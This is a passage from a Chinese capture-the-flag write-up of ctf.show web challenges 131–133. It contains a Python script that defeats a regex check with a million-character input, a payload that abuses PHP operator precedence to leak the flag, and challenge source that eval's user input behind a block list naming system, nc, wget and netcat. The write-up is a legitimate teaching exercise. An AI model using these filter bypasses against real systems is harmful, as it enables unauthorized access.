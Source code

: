 ```php
```
取消了web130的非预期，上一题思路仍然可解
poc：
```php
'''
Author: KonDream
Date: 2021-11-30 12:58:00
LastEditors:  KonDream
LastEditTime: 2021-11-30 12:58:01
Description:  
'''
import requests

url = 'http://4fef2867-91b1-4f3c-aec0-3f96683cceb1.challenge.ctf.show/'

data = {
    'f' : 'a' * 1000000 + '36Dctfshow' 
}

r = requests.post(url=url, data=data)
print(r.text)
```
## web132（运算符优先级）
打开发现是个网页，看一眼robots文件，发现存在admin目录，于是访问/admin
```php
<?php

#error_reporting(0);
include("flag.php");
highlight_file(__FILE__);


if(isset($_GET['username']) && isset($_GET['password']) && isset($_GET['code'])){
    $username = (String)$_GET['username'];
    $password = (String)$_GET['password'];
    $code = (String)$_GET['code'];

    if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin"){
        
        if($code == 'admin'){
            echo $flag;
        }
        
    }
}
```
payload：?code=admin&password=0&username=admin
重点在第13行判断，仔细观察第二个运算符是或运算符，所以只要满足$username ==="admin"为真条件即可成立，username传参admin后，再满足$code == 'admin'就能输出flag
## web133（变量覆盖）
```php
<?php

error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
```